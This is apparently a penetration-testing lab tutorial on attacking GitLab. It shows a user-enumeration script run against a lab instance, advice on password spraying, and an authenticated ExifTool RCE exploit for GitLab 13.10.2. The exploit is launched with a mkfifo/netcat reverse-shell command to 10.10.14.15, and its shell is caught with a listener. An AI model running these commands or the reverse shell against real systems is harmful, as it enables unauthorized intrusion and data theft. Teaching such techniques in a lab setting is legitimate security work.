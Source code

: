 # Attacking GitLab

---

As we saw in the previous section, even unauthenticated access to a GitLab instance could lead to sensitive data compromise. If we were able to gain access as a valid company user or an admin, we could potentially uncover enough data to fully compromise the organization in some way. GitLab has [553 CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-13074/Gitlab.html) reported as of September 2021. While not every single one is exploitable, there have been several severe ones over the years that could lead to remote code execution.

---

## Username Enumeration

Though not considered a vulnerability by GitLab as seen on their [Hackerone](https://hackerone.com/gitlab?type=team) page ("User and project enumeration/path disclosure unless an additional impact can be demonstrated"), it is still something worth checking as it could result in access if users are selecting weak passwords. We can do this manually, of course, but scripts make our work much faster. We can write one ourselves in Bash or Python or use [this one](https://www.exploit-db.com/exploits/49821) to enumerate a list of valid users. The Python3 version of this same tool can be found [here](https://github.com/dpgg101/GitLabUserEnum). As with any type of password spraying attack, we should be mindful of account lockout and other kinds of interruptions. GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes. This can be seen [here](https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/initializers/8_devise.rb). This can be changed, but GitLab would have to be compiled by source. At this time, there is no way to change this setting from the admin UI, but an admin can modify the minimum password length, which could help with users choosing short, common passwords but will not entirely mitigate the risk of password attacks.

Attacking GitLab

```shell-session
# Number of authentication tries before locking an account if lock_strategy
# is failed attempts.
config.maximum_attempts = 10

# Time interval to unlock the account if :time is enabled as unlock_strategy.
config.unlock_in = 10.minutes
```

Downloading the script and running it against the target GitLab instance, we see that there are two valid usernames, `root` (the built-in admin account) and `bob`. If we successfully pulled down a large list of users, we could attempt a controlled password spraying attack with weak, common passwords such as `Welcome1` or `Password123`, etc., or try to re-use credentials gathered from other sources such as password dumps from public data breaches.

Attacking GitLab

```shell-session
swmpdnky@htb[/htb]$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  			             GitLab User Enumeration Script
   	    			             Version 1.0

Description: It prints out the usernames that exist in your victim's GitLab CE instance

Disclaimer: Do not run this script against GitLab.com! Also keep in mind that this PoC is meant only
for educational purpose and ethical use. Running it against systems that you do not own or have the
right permission is totally on your own risk.

Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


LOOP
200
[+] The username root exists!
LOOP
302
LOOP
302
LOOP
200
[+] The username bob exists!
LOOP
302
```

---

## Authenticated Remote Code Execution

Remote code execution vulnerabilities are typically considered the "cream of the crop" as access to the underlying server will likely grant us access to all data that resides on it (though we may need to escalate privileges first) and can serve as a foothold into the network for us to launch further attacks against other systems and potentially result in full network compromise. GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution [vulnerability](https://hackerone.com/reports/1154542) due to an issue with ExifTool handling metadata in uploaded image files. This issue was fixed by GitLab rather quickly, but some companies are still likely using a vulnerable version. We can use this [exploit](https://www.exploit-db.com/exploits/49951) to achieve RCE.

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack.

Attacking GitLab

```shell-session
swmpdnky@htb[/htb]$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

And we get a shell almost instantly.

Attacking GitLab

```shell-session
swmpdnky@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id

id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
sockets
```